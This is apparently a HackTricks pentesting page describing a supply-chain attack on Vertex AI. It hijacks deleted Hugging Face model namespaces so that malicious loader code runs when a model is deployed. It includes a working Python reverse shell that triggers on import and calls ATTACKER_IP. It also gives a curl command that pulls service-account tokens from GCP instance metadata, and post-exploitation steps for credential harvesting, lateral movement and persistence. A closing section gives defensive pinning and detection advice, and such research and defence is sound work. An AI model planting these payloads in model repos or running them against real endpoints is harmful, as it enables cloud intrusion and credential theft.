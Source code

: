 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Vertex AI Model Garden allows direct deployment of many Hugging Face (HF) models.
- HF model identifiers are Author/ModelName. If an author/org on HF is deleted, the same author name can be re-registered by anyone. Attackers can then create a repo with the same ModelName at the legacy path.
- Pipelines, SDKs, or cloud catalogs that fetch by name only (no pinning/integrity) will pull the attacker-controlled repo. When the model is deployed, loader code from that repo can execute inside the Vertex AI endpoint container, yielding RCE with the endpoint’s permissions.

Two common takeover cases on HF:
- Ownership deletion: Old path 404 until someone re-registers the author and publishes the same ModelName.
- Ownership transfer: HF issues 307 redirects from old Author/ModelName to the new author. If the old author is later deleted and re-registered by an attacker, the redirect chain is broken and the attacker’s repo serves at the legacy path.

## Identifying Reusable Namespaces (HF)

- Old author deleted: the page for the author returns 404; model path may return 404 until takeover.
- Transferred models: the old model path issues 307 to the new owner while the old author exists. If the old author is later deleted and re-registered, the legacy path will resolve to the attacker’s repo.

Quick checks with curl:

```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```

## End-to-end Attack Flow against Vertex AI

1) Discover reusable model namespaces that Model Garden lists as deployable:
- Find HF models in Vertex AI Model Garden that still show as “verified deployable”.
- Verify on HF if the original author is deleted or if the model was transferred and the old author was later removed.

2) Re-register the deleted author on HF and recreate the same ModelName.

3) Publish a malicious repo. Include code that executes on model load. Examples that commonly execute during HF model load:
- Side effects in __init__.py of the repo
- Custom modeling_*.py or processing code referenced by config/auto_map
- Code paths that require trust_remote_code=True in Transformers pipelines

4) A Vertex AI deployment of the legacy Author/ModelName now pulls the attacker repo. The loader executes inside the Vertex AI endpoint container.

5) Payload establishes access from the endpoint environment (RCE) with the endpoint’s permissions.

Example payload fragment executed on import (for demonstration only):

```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
    s = socket.socket(); s.connect((host, port))
    for fd in (0,1,2):
        try:
            os.dup2(s.fileno(), fd)
        except Exception:
            pass
    subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
    threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```

Notes
- Real-world loaders vary. Many Vertex AI HF integrations clone and import repo modules referenced by the model’s config (e.g., auto_map), which can trigger code execution. Some uses require trust_remote_code=True.
- The endpoint typically runs in a dedicated container with limited scope, but it is a valid initial foothold for data access and lateral movement in GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Once code is running inside the endpoint container, consider:
- Enumerating environment variables and metadata for credentials/tokens
- Accessing attached storage or mounted model artifacts
- Interacting with Google APIs via service account identity (Document AI, Storage, Pub/Sub, etc.)
- Persistence in the model artifact if the platform re-pulls the repo

Enumerate instance metadata if accessible (container dependent):

```bash
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

## Defensive Guidance for Vertex AI Users

- Pin models by commit in HF loaders to prevent silent replacement:

```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```

- Mirror vetted HF models into a trusted internal artifact store/registry and deploy from there.
- Continuously scan codebases and configs for hard-coded Author/ModelName that are deleted/transferred; update to new namespaces or pin by commit.
- In Model Garden, verify model provenance and author existence before deployment.

## Recognition Heuristics (HTTP)

- Deleted author: author page 404; legacy model path 404 until takeover.
- Transferred model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.

```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```

## Cross-References

- See broader methodology and supply-chain notes:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## References

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}